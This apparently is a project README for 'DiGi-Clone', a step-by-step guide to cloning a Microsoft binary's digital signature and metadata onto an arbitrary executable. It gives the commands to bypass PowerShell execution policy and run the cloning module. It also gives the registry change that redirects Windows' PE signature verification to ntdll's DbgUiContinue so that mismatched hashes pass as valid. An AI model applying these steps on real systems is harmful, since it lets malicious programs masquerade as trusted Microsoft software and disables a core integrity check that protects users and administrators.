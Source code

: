 # DiGi-Clone
Steps to follow:
STEP1:  Choose a sample executable of a CPP file i.e. testapp.exe 
STEP2:  Check if the file we choose is digitally signed or not by using the command 
Get-AuthenticodeSignature .\testapp.exe

Checking Metadata by using exiftool.exe

STEP3: 
Now we need a file Which is digitally signed by Microsoft , so we have chosen consent.exe from C:\Windows\System32 folder and checking for its signature 

Checking Metadata by using exiftool.exe

STEP4:
Now we bypass the PowerShell script execution policy in the system by the following command in cmd PowerShell -ep bypass




STEP5:
We have to Import our CLI Module Script which is saved in digiclone.ps1 in order to use digiclone and use its commands.
 Import-Module .\digiclone.ps1

STEP6: After importing the Ps module we have to run the following command 
  Start-DigiClone -Source .\consent.exe -Target .\testapp.exe -Sign
-Source is used for selecting the source file from which the signature and the metadata is going to be cloned.
-Target is used for selecting the file to which the signature and the metadata are going to be embedded
-Sign is the optional tag that is used to copy the signature we can run the command without it for only metadata cloning



STEP7: After running the command our cloned file is saved in the 
C:\Users\Bandit G\Desktop\crypto project\Digiclone\20221128_094234
Now go to that directory and check the signature and metadata of the cloned file 

Clearly the modified file shows the status as HashMismatch as Digiclone only copies the digital signature and cannot copy the hash of a file as the hash of every file is different.
Checking Metadata of the new file by using exiftool.exe

STEP8: As the modified file is showing hash mismatch status on verification of the digital signature we have to modify the registry key which is used to validate the digital signature of the portable executables
Windows uses the following registry key for .exe validation  {C689AAB8-8E78-11D0-8C47-00C04FC295EE} 
            Now, we need to modify the registry at the location
      HKLM\SOFTWARE\Microsoft\Cryptography\OID\EncodingType    0\CryptSIPDllVerifyIndirectData\{C689AAB8-8E78-11D0-8C47-00C04FC295EE}
            DLL to  C:\Windows\System32\ntdll.dll
            Function to DbgUiContinue

STEP9:Now open a new PowerShell for the changes to take place and verify the digital signature of the cloned file 
BEFORE

AFTER
   
